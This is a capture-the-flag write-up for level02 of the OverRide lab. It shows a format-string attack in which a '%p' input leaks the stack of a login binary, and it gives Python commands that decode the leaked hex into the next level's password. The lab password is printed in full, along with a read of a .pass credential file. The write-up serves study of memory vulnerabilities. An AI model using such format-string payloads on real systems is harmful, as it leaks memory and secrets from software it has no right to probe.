


# level02



# [OUR NEW ERA](https://youtu.be/GrQN-zcuPEU?si=pE0aYGj6Z8_r6lcM)

```sh
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: Garp The Hero
--[ Password: Koby
*****************************************
Garp The Hero does not have access!
level02@OverRide:~$ ./level02 Mihawk
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: Dracul Mihawk
--[ Password: Perona
*****************************************
Dracul Mihawk does not have access!
level02@OverRide:~$ 
```



There only is a main here.

- Factually, the program begin by passing to a variable litterally the password of the next level. It exit if the function `fopen` (for opening the file) or `fread` (for attribute to a variable what `fopen` has read) failed.
- Then, the program asking a `username` but never check it, and asking a `password` and check it with `strcmp` function : it compare it to the variable containing the password of the next level... **IT'S IMPOSSIBLE** !

# <u>Vulnerability</u> : Format String Attack

We can notice the `printf` call when we enter a wrong password, it only have one argument. Naturally we can try to find where the buffer is stocked (the program is in `64 bits ELF format`, so the stack is 8 bytes aligned) :

```sh
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: AAAAAAAA %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
--[ Password: *****************************************
AAAAAAAA 0x7fffffffe4c0 (nil) 0x20 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6b8 0x1f7ff9a08 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x100702520 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil) 0x4141414141414141 0x2070255020702520 0x7025207025207025 does not have access!
level02@OverRide:~$
```

We can see the buffer is in the 28th argument, so we can try to overwr-

## _OH !_

Did you see this ?

Starting by the 6th argument, we can see a scheme :

```sh
level02@OverRide:~$ python -c 'print "2520702520702520".decode("hex")'
% p% p%
level02@OverRide:~$ python -c 'print "2070252070252070".decode("hex")'
 p% p% p
level02@OverRide:~$ python -c 'print "7025207025207025".decode("hex")'
p% p% p%
```

It's our string, but in reverse order.

```sh
level02@OverRide:~$ python -c 'print "2520702520702520".decode("hex")[::-1]'
 %p %p %
level02@OverRide:~$ python -c 'print "2070252070252070".decode("hex")[::-1]'
p %p %p
level02@OverRide:~$ python -c 'print "7025207025207025".decode("hex")[::-1]'
%p %p %p
level02@OverRide:~$
```

# I have an idea


When we worked on [_RainFall_](https://github.com/Nimpoo/rainfall), we never have this idea, I don't know why.

If we print **ALL THE `STACK`** and convert all these addresse into ascii, we can maybe find the password of the next level stcked by the variable `ptr`. So, starting by the first at the 20th argument, it'all our buffer and other uninteresting values, let's try to print all the stack starting by the 21th argument :

```sh
level02@OverRide:~$ python -c 'print "756e505234376848".decode("hex")[::-1]'
Hh74RPnu
level02@OverRide:~$ python -c 'print "45414a3561733951".decode("hex")[::-1]'
Q9sa5JAE
level02@OverRide:~$ python -c 'print "377a7143574e6758".decode("hex")[::-1]'
XgNWCqz7
level02@OverRide:~$ python -c 'print "354a35686e475873".decode("hex")[::-1]'
sXGnh5J5
level02@OverRide:~$ python -c 'print "48336750664b394d".decode("hex")[::-1]'
M9KfPg3H
level02@OverRide:~$
```

If we concatenate all these strings, we have the password of the next level **`Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`**

### Now, let's try to log in with this password :

```sh
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: Garp The Hero
--[ Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
*****************************************
Greetings, Garp The Hero!
$ 
```

## We are authenticated !

Now, let's get the flag :

```sh
$ cat /home/users/level03/.pass
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
$ 
```

# LEZGOOOOOOOOOOOOOOO


Now... go to the next level with this password...

```sh
level02@OverRide:~$ su level03
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   /home/users/level03/level03
level03@OverRide:~$ 
```

# level02... complet...


